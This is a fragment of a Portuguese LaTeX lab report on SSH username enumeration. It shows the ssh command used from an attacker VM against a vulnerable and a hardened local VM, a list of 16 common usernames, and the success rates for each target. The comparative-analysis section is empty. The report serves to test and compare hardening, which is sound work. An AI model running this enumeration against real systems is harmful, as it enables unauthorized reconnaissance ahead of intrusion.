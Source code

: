 \documentclass[12pt]{article}
\begin{document}
\subsubsection{Comandos Executados}
\begin{verbatim}
# Script executado da VM atacante
bash /vagrant/ataque_enumeracao_usuarios.sh 192.168.56.10
bash /vagrant/ataque_enumeracao_usuarios.sh 192.168.56.11

# Técnica base:
ssh -o PreferredAuthentications=none \
    -o StrictHostKeyChecking=no \
    -o ConnectTimeout=3 \
    usuario@IP 2>&1 | grep "Permission denied"
\end{verbatim}

\subsubsection{Lista de Usuários Testados}
root, admin, administrator, vagrant, ubuntu, guest, test, user, operator, backup, mysql, postgres, apache, nginx, www-data, nobody (total: 16 usuários comuns)

\subsubsection{Resultados Obtidos}

\textbf{VM alvo (vulnerável):}
\begin{verbatim}
Usuários CONFIRMADOS (16):
- root, admin, administrator
- vagrant, ubuntu, guest
- test, user, operator, backup
- mysql, postgres, apache, nginx
- www-data, nobody

Taxa de sucesso: 100% (16/16)
\end{verbatim}

\textbf{VM alvo-hardened (protegida):}
\begin{verbatim}
Usuários CONFIRMADOS (6):
- root, admin, administrator
- vagrant, ubuntu, guest

NÃO CONFIRMADOS (10):
- test, user, operator, backup
- mysql, postgres, apache, nginx
- www-data, nobody

Taxa de sucesso: 37.5% (6/16)
Timeouts: 62.5% das tentativas
\end{verbatim}

\subsubsection{Análise Comparativa}
\end{document}
